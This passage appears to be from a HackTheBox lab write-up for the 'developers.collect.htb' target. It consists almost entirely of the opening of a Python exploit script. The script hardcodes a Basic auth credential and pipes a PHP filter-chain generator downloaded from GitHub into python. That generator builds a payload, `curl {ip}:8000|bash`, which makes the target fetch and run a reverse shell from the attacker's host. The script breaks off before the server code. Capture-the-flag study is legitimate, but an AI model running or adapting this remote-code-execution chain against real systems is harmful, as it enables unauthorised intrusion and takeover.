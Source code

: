 ![](screenshots/http-developers.collect.htb-rev-shell.png)


**Exploit Script**
```py
#!/usr/bin/env python3

"""
Author: poorduck
Date: 2023-05-02
Description:

Usage: python script.py
"""

import requests
import os
import netifaces as ni
import threading
import http.server
import socketserver
import redis

# Get hackthebox vpn ip from tun0 interface
try:
    tun0_ip = ni.ifaddresses('tun0')[ni.AF_INET][0]['addr']
except ValueError as e:
    print("[!] tun0 not found!")
    exit(e)

session = requests.Session()
# session.proxies = {"http": "http://127.0.0.1:8080"}
session.headers = {"Authorization": "Basic ZGV2ZWxvcGVyc19ncm91cDpyMGNrZXQ="}
host = "http://developers.collect.htb"

# function for creating php filter chain using synacktiv "php_filter_chain_generator.py" script from github
def gen_php_chain(ip):
    command = f'curl -s https://raw.githubusercontent.com/synacktiv/php_filter_chain_generator/main/php_filter_chain_generator.py | python - --chain \'<?= `curl {ip}:8000|bash` ;?>\''
    output_file = os.popen(command)
    output = output_file.read()
    output_file.close()
    php_chain = output.split('\n')[1]
    return php_chain

# hosting reverse shell on a python simple http server
```